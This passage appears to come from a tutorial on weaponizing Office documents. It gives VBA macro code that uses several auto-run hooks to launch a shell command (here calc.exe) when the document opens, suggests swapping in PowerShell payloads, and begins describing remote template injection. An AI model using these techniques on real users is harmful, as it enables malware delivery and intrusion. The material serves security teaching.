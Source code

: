 
Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c calc.exe")
End Sub
```

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maldoc-weaponization/2020-11-02-22-59-48.png)

Save the document as `.doc` or `.docm` and run it!

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maldoc-weaponization/2020-11-02-23-02-18.png)

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maldoc-weaponization/2020-11-02-23-02-39.png)

You can also use other payload command line like powershell etc.

# Template injection

This part will shows us how to create a non-macro document that uses a template that contains vba macros, which is loaded from a remote server when the document is executed.

When the maldoc is opened, it will attempt to retrieve and execute template document define at `word/_rels/settings.xml.rels`.

Let's first create a malicious template document. Then, we will create the second document which we will modify the `word/_rels/settings.xml` of the document which will be lead the document to retrieve and replace with our malicious template document.

Assume that we gonna use the document that we've have created in VBA Macro part above.

I've added a line to pop-up a msgbox that tell us that our remote template injection is successful.
